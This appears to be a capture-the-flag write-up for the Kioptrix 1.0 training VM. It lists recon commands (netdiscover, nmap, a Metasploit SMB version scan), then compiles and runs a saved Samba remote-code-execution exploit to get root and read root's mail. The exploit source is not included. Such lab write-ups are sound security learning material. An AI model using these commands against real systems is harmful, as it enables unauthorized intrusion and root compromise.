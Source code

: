 *Kioptrix1.0*

**RECON**
---
**Discovery** 
<pre>netdiscover -i eth1</pre>  
192.168.57.1, 192.168.57.5 have open ports
![image9](https://user-images.githubusercontent.com/66635295/158940818-d91d29b5-923c-4acc-9f6b-2091c60363b9.png)


**Nmap Scan**  
<pre>namp -sC -sV -A 192.168.57.5</pre>    
-safescan -version -OS detection     
Port 139 running Samba   
![image6](https://user-images.githubusercontent.com/66635295/158940906-7b990432-a866-4a7c-90a4-832f86c0dafa.png)

**Version Scan**  
<pre>msfconsole</pre>
<pre>use auxiliary/scanner/smb/smb-version</pre>
Samba Version 2.2.1
![image1](https://user-images.githubusercontent.com/66635295/158941165-4041b36e-e43e-4ca3-b01f-134e71fecd21.png)

**Google-Fu**  
<pre>samba 2.2.1a exploit</pre>  
2.2.8 RCE  
![image7](https://user-images.githubusercontent.com/66635295/158942927-e5417000-4f14-40f7-91e0-87c67e61d0df.png)  
![image4](https://user-images.githubusercontent.com/66635295/158942943-428d01f1-8ae4-4681-bd8b-bfcac35135e2.png)  


**ENUMURATION**
---
**Save Exploit**
![image5](https://user-images.githubusercontent.com/66635295/158943061-9e2fd590-175e-4807-afae-0a78d37c6c87.png)

**Make executable copy**
<pre>gcc 10.c -o 10</pre>
GNU compiler outposts copy executable to file named 10)
![image8](https://user-images.githubusercontent.com/66635295/158943348-a0ebcee3-3ce7-46bc-8aec-8a99eecff320.png)


**Root Escalation**
---
**Shell**
<pre>./10 -b 0 192.168.57.5</pre>
-Bruteforce linux  
![image10](https://user-images.githubusercontent.com/66635295/158943567-b99148a3-410d-4a37-b859-1e207c344df1.png)
  
**Root Flag**  
 <pre>head -n 100 /var/spool/mail/root</pre>  
![image2](https://user-images.githubusercontent.com/66635295/158943980-2635c5da-7035-4f71-a491-2bd512c3aaa2.png)


